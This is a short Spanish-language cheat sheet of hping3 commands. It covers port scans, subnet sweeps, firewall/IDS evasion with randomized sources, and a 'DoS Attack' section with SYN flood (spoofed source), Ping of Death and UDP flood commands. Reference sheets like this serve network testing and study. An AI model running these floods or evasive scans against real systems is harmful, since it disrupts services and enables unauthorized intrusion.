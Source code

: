 # Hping3 Cheat Sheet

### Enviar varios paquetes a un Host

#### *100,000 paquetes de Ping*
```
hping3 [IP-Address] -c 100000
```

### Exploración de puertos y descubrimiento de servicios

#### *Escaneo ACK a un puerto de un Host*
```
hping3 -A [IP-Address] -p [Port] -c [Package-Number]
```

#### *Escaneo SYN a los primeros 100 puertos de un Host*
```
hping3 -8 0-100 -S [IP-Address] -V
```

#### *Escaneo FIN, PUSH y URG a un puerto de un Host*
```
hping3 -F -P -U [IP-Address] -p [Port] -c [Package-Number]
```

#### *Escaneo ICMP a un puerto de un Host*
```
hping3 -1 [IP-Address] -p [Port] -c [Package-Number]
```

#### *Escaneo UDP a un puerto de un Host*
```
hping3 -2 [IP-Address] -p [Port] -c [Package-Number]
```

#### *Escaneo de subred completo para un Host*
```
hping3 -1 [Target-Subred] --rand-dest -I eth0
```

### Escanear más allá del Firewall/IDS

#### *Personalizar paquetes UDP*
```
hping3 [IP-Address] --udp --ran-source --data 500
```

#### *Inundación de TCP*
```
hping3 [IP-Address] --flood
```

### DoS Attack

#### *SYN Flooding*
```
hping3 -S [IP-Address] -a [Spoofable-IP-Address] -p 22 --flood
```

#### *PoD Attack*
```
hping3 -d 65538 -S -p 21 --flood [IP-Address]
```

#### *UDP Flood Attack*
```
hping3 -2 -p 139 --flood [IP-Address]
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
